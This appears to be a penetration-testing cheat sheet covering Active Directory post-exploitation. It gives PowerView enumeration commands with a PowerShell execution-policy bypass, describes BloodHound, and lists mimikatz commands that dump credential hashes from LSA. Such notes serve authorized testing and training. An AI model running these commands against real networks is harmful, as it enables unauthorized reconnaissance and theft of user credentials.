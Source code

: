 - [Enumeration-powerview](#Enumeration-powerview)
- [Enumeration Bloodhound](#Enumeration-Bloodhound)
- [Dumping hashes mimikatz](#Dumping-hashes-mimikatz)

# Enumeration-powerview
Powerview is a powerful powershell script from powershell empire that can be used for enumerating a domain after you have already gained a shell in the system.

- Start powershell
```
powershell -ep bypass
```

- start powerview
```
. .\PowerView.ps1
```

- Enumerate the domain users
```
Get-NetUser | select cn
```

- Enumerate the domain group
```
Get-NetGroup -GroupName *admin*
```

- Enumerate the OS
```
Get-NetComputer -fulldata | select operatingsystem
```

- Enumerate folders
```
Invoke-ShareFinder 
```

# Enumeration Bloodhound
Bloodhound is a graphical interface that allows you to visually map out the network. This tool along with SharpHound which similar to PowerView takes the user, groups, trusts etc. of the network and collects them into .json files to be used inside of Bloodhound.

# Dumping hashes mimikatz
Mimikatz is a post-exploitation tool mainly used for dumping user credentials inside of a active directory network

- Run mimikatz.exe
```
> .\mimikatz.exe
```

- Run as administrator
Esure that the output is "Privilege '20' ok"
```
privilege::debug
```

- Dump hashes
```
lsadump::lsa /patch
```

